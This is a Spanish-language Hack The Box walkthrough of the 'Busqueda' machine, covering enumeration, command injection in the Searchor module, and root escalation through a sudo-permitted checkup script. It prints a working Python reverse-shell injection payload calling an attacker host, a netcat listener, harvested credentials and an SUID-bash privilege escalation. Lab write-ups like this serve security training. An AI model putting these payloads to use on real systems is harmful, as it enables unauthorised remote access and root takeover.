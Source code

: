 ```yaml
---
layout: single
title: Busqueda - Hack The Box
excerpt: "Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo de Python. Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. A escalar privilegios a root, descubrimos credenciales dentro de un archivo de configuración de Git, lo que nos permite iniciar sesión en un local Servicio de gitea. Además, descubrimos que se puede ejecutar un script de verificación del sistema con privilegios de root. por un usuario específico. Al utilizar este script, enumeramos los contenedores Docker que revelan las credenciales para el
cuenta Gitea del usuario administrador. Análisis adicional del código fuente del script de verificación del sistema en un El repositorio de Git revela un medio para explotar una referencia de ruta relativa, lo que nos permite la ejecución remota de código (RCE) con privilegios de root."
date: 2023-08-23
classes: wide
header:
  teaser: /assets/images/htb-writeup-busqueda/busqueda_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-busqueda/busqueda_logo.png)

Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo de Python. Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. A escalar privilegios a root, descubrimos credenciales dentro de un archivo de configuración de Git, lo que nos permite iniciar sesión en un local Servicio de gitea. Además, descubrimos que se puede ejecutar un script de verificación del sistema con privilegios de root. por un usuario específico. Al utilizar este script, enumeramos los contenedores Docker que revelan las credenciales para el
cuenta Gitea del usuario administrador. Análisis adicional del código fuente del script de verificación del sistema en un El repositorio de Git revela un medio para explotar una referencia de ruta relativa, lo que nos permite la ejecución remota de código (RCE) con privilegios de root.

# 1. Enumeración
   
Iniciamos con un escaneando de puertos de la máquina con Nmap.

## Portscan
Encontramos dos puertos abiertos. 
•	22 de SSH 
•	80 de HTTP

![](/assets/images/htb-writeup-busqueda/portscan.png)

Realizamos un “Curl” para obtener información adicional.

![](/assets/images/htb-writeup-busqueda/curl.png)

Agregamos el dominio encontrado en el archivo “/etc/hosts” para que sepa a donde resolver cuando apuntemos a él.

![](/assets/images/htb-writeup-busqueda/hosts.png)

## Website
Navegamos hasta el servicio web. Encontramos que es una aplicación que se utiliza para realizar búsquedas con diferentes buscadores.

•	https://github.com/ArjunSharda/Searchor.

![](/assets/images/htb-writeup-busqueda/web.png)

## Burp Suite
Vamos a realizar una búsqueda cualquiera e interceptamos la petición con BurpSuite.

![](/assets/images/htb-writeup-busqueda/burp.png)

# 2. Explotación

Realizamos la busqueda de posible exploit para el buscardor "searchor".

•	Exploit: https://github.com/jonnyzar/POC-Searchor-2.4.2

Debemos inyectar una carga en la peticion interceptada por Burp.

Carga Util:

•	', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('IP-ATACANTE',PORT-ATACANTE));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

Interceptamos la petición con BurpSuite y agregamos nuestra carga útil.

![](/assets/images/htb-writeup-busqueda/burp2.png)

Paralelamente debemos ponernos en escucha por el puerto donde vamos a recivbir nuestra conexión (4444) y enviamos la petición desde Burp Suit.
•	nc -nlvp 444
Luego de enviar la peicion, vamos a recibir nuestra shell de la maquina, ahora generamos una terminal ( tty) mas facil de maenjar a través de Python y capturamos nuestra flag de usuario estandar.

![](/assets/images/htb-writeup-busqueda/rever.png)

## 3. Escalación de Privilegios

Listamos el directorio /var/www/app y encontramos “.git”.

![](/assets/images/htb-writeup-busqueda/list.png)

Nos dirigimos al directorio encontrado y volvemos a listar. Ahora encontramos un archivo de configuración.

![](/assets/images/htb-writeup-busqueda/config.png)

Leemos el archivo y encontramos un usuario y una contraseña asociado a un acceso a un dominio.

![](/assets/images/htb-writeup-busqueda/config2.png)

Nos conectamos por ssh con esas credenciales.

![](/assets/images/htb-writeup-busqueda/ssh.png)

Reutilizamos la contraseña para saber que permisos SUDO tiene el usuario “svc”.

![](/assets/images/htb-writeup-busqueda/sudo.png)

No podemos leer el archivo, pero podemos ver algunos de los parámetros permitidos.

•	sudo /usr/bin/python3 /opt/scripts/system-checkup.py *

![](/assets/images/htb-writeup-busqueda/sudo2.png)

![](/assets/images/htb-writeup-busqueda/sudo3.png)

•	Enlace: https://docs.docker.com/engine/reference/commandline/inspect/

•	sudo python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db

![](/assets/images/htb-writeup-busqueda/sudo4.png)


Credenciales:

•	yuiu1hoiu4i5ho1uh

•	jI86kGUuj87guWr3RyF



#!/bin/bash 
chmod +s /bin/bash
cat full-checkup.sh
chmod +x full-checkup.sh


![](/assets/images/htb-writeup-busqueda/sudo5.png)

•	sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

•	ls -l /bin/bash

•	bash -p

Luego de cambiar a usuario root, capturamos nuestra flag.

•	whoami

•	cat /root/root.txt

![](/assets/images/htb-writeup-busqueda/sudo6.png)
